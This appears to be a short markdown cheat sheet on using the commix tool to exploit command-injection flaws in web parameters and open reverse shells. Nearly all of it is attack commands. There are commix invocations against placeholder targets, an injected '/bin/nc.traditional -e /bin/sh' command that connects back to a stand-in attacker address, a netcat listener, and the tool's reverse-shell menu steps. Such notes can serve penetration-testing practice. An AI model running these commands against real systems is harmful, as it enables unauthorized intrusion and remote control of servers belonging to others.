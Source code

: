 Commix Reverse Shell
====================

READ THIS LINK!!
https://github.com/commixproject/commix/wiki/Reverse-Shells

Load from saved file (contains cookies, tokens, etc)
---------------------------------------------------
```bash
commix -r /must/use/full/path/to/file.txt
```
Examples
---------
```bash
# Notice the "INJECT_HERE" param
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php?ip=127.0.0.1INJECT_HERE'--os=unix --batch 
# Use proxy to make sure you are doing what you think you are
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php?ip=127.0.0.1INJECT_HERE'--os=unix --batch --proxy=http://localhost:8080
# --data is used for POST and adds the data to the body, not the url
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php' --data=ip="INJECT_HERE" --os=unix --batch --proxy=http://localhost:8080
```


Technique 1
-----------
```bash
# Start NC listener on attackers server
nc -lvp 1234

commix -u 'http://victim.ip.address/commandexec/example1.php?ip=127.0.0.1' --os-cmd="/bin/nc.traditional -e /bin/sh attacker.ip.adddress 1234"
```

# On Attacker
````bash
nc -lvp 1234
````

# Exploit Found
```bash
os_shell
commix(os_shell)
reverse_tcp
set LHOST attackers.ip.address
set LPORT 1234

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

1

---[ Unix-like targets ]--- 
Type '1' to use the default Netcat on target host.
Type '2' to use Netcat for Busybox on target host.
Type '3' to use Netcat-Traditional on target host. 
Type '4' to use Netcat-Openbsd on target host. 

3
```
